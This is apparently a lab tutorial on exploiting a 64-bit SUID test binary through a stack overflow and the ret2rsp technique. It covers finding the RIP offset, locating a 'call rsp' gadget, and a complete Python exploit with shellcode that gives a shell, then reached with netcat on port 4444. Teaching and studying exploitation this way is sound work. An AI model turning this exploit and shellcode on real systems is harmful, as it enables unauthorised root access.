# Linux Stack Overflows

## Exploiting 64-bit SUID Executable Using Ret2RSP
In this example, a 64-bit root SUID executable has a buffer overflow vulnerability that allows an attacker to use the ret2rsp attack technique. The executable opens a socket on port 31337 and forks a process sending the input to the child process. The executable will fork the child process again in the event of a crash.

```bash
# Check if Address Space Layout Randomization (ASLR) is enabled; value of 1 or 2 means it's enabled
cat /proc/sys/kernel/randomize_va_space

# Check if the stack is executable; output will be returned if it's executable
readelf -W -l testbin | grep 'GNU_STACK' | grep 'RWE'
```

From the above commands, in this example, ASLR was enabled (2) and had an executable stack.

The next step is to determine the offset in the input that will allow RIP to be overwritten.

Using Metasploit's pattern_create to create a payload to find the offset.

```bash
# Create a payload with a length of 150 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150 
```

Creating a Python script that will be used to send the payload.

```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 31337))

# Banner
sock.recv(1024)

# Metasploit payload
payload = (
 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa"
 "8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A"
 "b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5"
 "Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad"
 "4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A"
 "e3Ae4Ae5Ae6Ae7Ae8Ae9"
)

sock.send(str.encode(payload))
res = sock.recv(1024)
print(bytes.decode(res))
sock.close()
```

Using gdb on the executable to retrieve the address at the top of the stack when the child process segfaults.
```text
gdb -q testbin

(gdb) set follow-fork-mode child
(gdb) run
(gdb) i r
(gdb) x/wx $rsp
```

Getting the exact offset; in this example it returned 120.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 0x41306541
```

Updated Python script to test if we can control RIP.
```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 31337))

# Banner
sock.recv(1024)

offset = 120
rip = "\x42\x42\x42\x42\x42\x42"
payload = "\x41" * offset + rip

sock.send(str.encode(payload))
res = sock.recv(1024)
print(bytes.decode(res))
sock.close()
```

Running the script again showed a segfault showing RIP pointing to 0x0000424242424242. This confirmed we now have control of RIP.

The next steps are to find a memory address that points to the shellcode on the stack and shellcode that is 120 bytes or less.

A ROP gadget was found inside the executable using objdump. Using this address for RIP will point to the shellcode on the stack.

```bash
objdump -D testbin | grep call | grep rsp
```

The address returned was 400cfb.

The Python script was updated with the memory address and shellcode that worked against the executable to gain shell access.

```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 31337))

# Banner
sock.recv(1024)

offset = 120
# 400cfb: ff d4 callq *%rsp
# Order is reversed (little endian)
rip = b"\xfb\x0c\x40\x00\x00\x00\x00"
# https://www.exploit-db.com/exploits/39149/
shellcode = (
b"\x48\x31\xc0\x48\x31\xf6\x48\xf7\xe6"
b"\x6a\x02\x5f\xff\xc6\x6a\x29\x58\x0f"
b"\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02"
b"\x11\x5c"
b"\x54\x5e\x52\x6a\x10\x5a\x6a\x31\x58"
b"\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a"
b"\x2b\x58\x0f\x05\x49\x89\xc1\x6a\x03"
b"\x58\x0f\x05\x49\x87\xf9\x48\x31\xf6"
b"\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05"
b"\x75\xf8\x48\x31\xf6\x48\xf7\xe6\x66"
b"\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f"
b"\x73\x68\x53\x54\x5f\x6a\x3b\x58\x0f\x05"
)
# NOPs added before shellcode to pad to 120 bytes
payload = b"\x90" * (offset - len(shellcode)) + shellcode + rip

sock.send(b"%s\n" % payload)
sock.recv(1024)
sock.close()
```

To gain root shell the following commands were executed.

```bash
python3 exploit.py
nc localhost 4444
```